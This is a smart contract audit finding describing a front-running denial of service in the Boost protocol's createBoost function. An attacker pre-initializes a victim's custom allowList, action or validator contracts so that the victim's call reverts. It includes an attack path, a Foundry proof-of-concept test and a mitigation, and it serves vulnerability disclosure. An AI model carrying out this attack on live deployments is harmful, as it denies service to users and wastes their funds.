 Wobbly Cinnamon Leopard

Medium

# Malicious user can front-run and deny Boost creation via pre-initialization of user’s custom contracts

### Summary
The `createBoost` function in the BoostCore contract allows a malicious user to front-run and initialize a victim’s custom contracts (such as action, allowList, or validator contracts). This results in the victim's `createBoost` call failing due to contract re-initialization restrictions, effectively allowing a denial of service (DoS) attack.

### Root Cause
In [`BoostCore.sol:126`](https://github.com/sherlock-audit/2024-06-boost-aa-wallet/blob/main/boost-protocol/packages/evm/contracts/BoostCore.sol#L126), [`BoostCore.sol:127`](https://github.com/sherlock-audit/2024-06-boost-aa-wallet/blob/main/boost-protocol/packages/evm/contracts/BoostCore.sol#L127) and [`BoostCore.sol:132`](https://github.com/sherlock-audit/2024-06-boost-aa-wallet/blob/main/boost-protocol/packages/evm/contracts/BoostCore.sol#L132), the function `_makeTarget()` always sets `shouldInitialize` to `true` when creating the boost components like `action`, `allowList`, and `validator`. 

```solidity
        // Setup the Boost components
        boost.action = AAction(_makeTarget(type(AAction).interfaceId, payload_.action, true));
        boost.allowList = AAllowList(_makeTarget(type(AAllowList).interfaceId, payload_.allowList, true));
        boost.incentives = _makeIncentives(payload_.incentives, payload_.budget);
        boost.validator = AValidator(
            payload_.validator.instance == address(0)
                ? boost.action.supportsInterface(type(AValidator).interfaceId) ? address(boost.action) : address(0)
                : _makeTarget(type(AValidator).interfaceId, payload_.validator, true)
        );
```

This results in the custom contracts forced being initialized by the BoostCore contract. However, if a malicious user front-runs the victim and pre-initializes the victim’s custom contract, the subsequent call by the victim to initialize the same contract will fail because the contracts cannot be re-initialized.

Users who want to use a custom contract as `action`, `allowList`, or `validator` can't protect against it since they can't initialize there contract before, and the attacker can initialize contract with the BoostCore (so a check on `msg.sender` will not work).

### Internal Pre-Conditions

### External Pre-Conditions
1. The victim needs to deploy custom contracts for `action`, `allowList`, or `validator` before calling the `createBoost` function.
2. The victim calls `createBoost` and passes references to the deployed custom contracts.

### Attack Path
1. The victim deploys custom contracts for their boost’s `action`, `allowList`, or `validator`.
2. Before the victim calls `createBoost`, a malicious user monitors the network and identifies the victim's contracts.
3. The malicious user front-runs the victim and calls `createBoost` using the victim’s custom contracts, forcing the contracts to initialize. Note that the malicious user can call custom contracts directly and have to initialize all of them. He can change parameters of the boost or use only one custom action for example.
5. When the victim attempts to call `createBoost` with the same custom contracts, the call fails because the contracts have already been initialized.
6. The victim’s `createBoost` transaction reverts, resulting in a denial of service (DoS) for the victim.

### Impact
A malicious user can perform a DoS attack by preventing the victim from creating a boost with their custom contracts. This forces the victim to redeploy new contracts, adding unnecessary complexity and cost. The victim will lose deployment gas, and can be DoS again.

### PoC

In packages\evm\test\e2e\EndToEndBasic.t.sol, add the following test:

```solidity
    function testPOC() public {

        // "Given that I have a budget"
        SimpleBudget budget = _budget;
        _when_I_allocate_assets_to_my_budget(budget);

        // "I can specify a list of allowed addresses"
        address[] memory allowList = new address[](2);
        allowList[0] = address(0xdeadbeef);
        allowList[1] = address(0xc0ffee);

        // "I can specify the incentive of '100 ERC20' with a max of 5 participants"
        BoostLib.Target[] memory incentives = new BoostLib.Target[](1);
        incentives[0] = BoostLib.Target({
            // "I can specify the incentive..."
            isBase: true,
            instance: address(
                registry.getBaseImplementation(
                    registry.getIdentifier(BoostRegistry.RegistryType.INCENTIVE, "ERC20Incentive")
                )
            ),
            // "... of '100 ERC20' with a max of 5 participants"
            parameters: abi.encode(erc20, AERC20Incentive.Strategy.POOL, 100 ether, 5)
        });

        //Before createBoost user deploy allowList
        address allowListAddress = address(new SimpleAllowList());

        //And the malicious user front run the createBoost function with his own allowList. 
        //Attacker can do so by initializing with createBoost core or with allowListAddress directly
        //We are doing POC by the second way because it is shorter but both are possible.
        

        address[] memory maliciousAllowList = new address[](2);
        maliciousAllowList[0] = address(0x123456);
        maliciousAllowList[1] = address(0x1234567);

        SimpleAllowList(allowListAddress).initialize(abi.encode(address(this), maliciousAllowList));

        // Then user call reverts. The user has to deploy new contracts
        // because his custom contracts have to be initialized by the core contract.

        core.createBoost(
            LibZip.cdCompress(
                abi.encode(
                    BoostCore.InitPayload(
                        // "... with my budget"
                        budget,
                        BoostLib.Target({
                            // "I can specify the action of 'Mint an NFT'"
                            // "... and I can specify the address of my ERC721"
                            // "... and I can specify the selector of the mint function"
                            // "... and I can specify the mint price"
                            isBase: true,
                            instance: address(
                                registry.getBaseImplementation(
                                    registry.getIdentifier(BoostRegistry.RegistryType.ACTION, "ERC721MintAction")
                                )
                            ),
                            parameters: abi.encode(
                                AContractAction.InitPayload({
                                    chainId: block.chainid,
                                    target: address(erc721),
                                    selector: MockERC721.mint.selector,
                                    value: erc721.mintPrice()
                                })
                            )
                        }),
                        BoostLib.Target({
                            // "... and I don't have to specify a validator"
                            isBase: false,
                            instance: address(0),
                            parameters: bytes("")
                        }),
                        BoostLib.Target({
                            // "I can specify a list of allowed addresses"
                            isBase: false,
                            instance: allowListAddress,
                            parameters: abi.encode(address(this), allowList)
                        }),
                        incentives, // "I can specify the incentive..."
                        1_000, // "I can specify an additional protocol fee" => 1,000 bps == 10%
                        500, // "I can specify an additional referral fee" => 500 bps == 5%
                        5, // "I can specify a maximum number of participants" => 5
                        address(1) // "I can specify the owner of the Boost" => address(1)
                    )
                )
            )
        );
    }
```

Then run `forge test --match-test testPOC -vvvv`

You will see that the test will fail with the `InvalidInitialization()` error.

If you delete this line it will not revert (ie there is no front run):
```solidity
SimpleAllowList(allowListAddress).initialize(abi.encode(address(this), maliciousAllowList));
```


### Mitigation
I recommend to always set `target_.isBase` to true for  `action`, `allowList`, or `validator` in the createBoost function.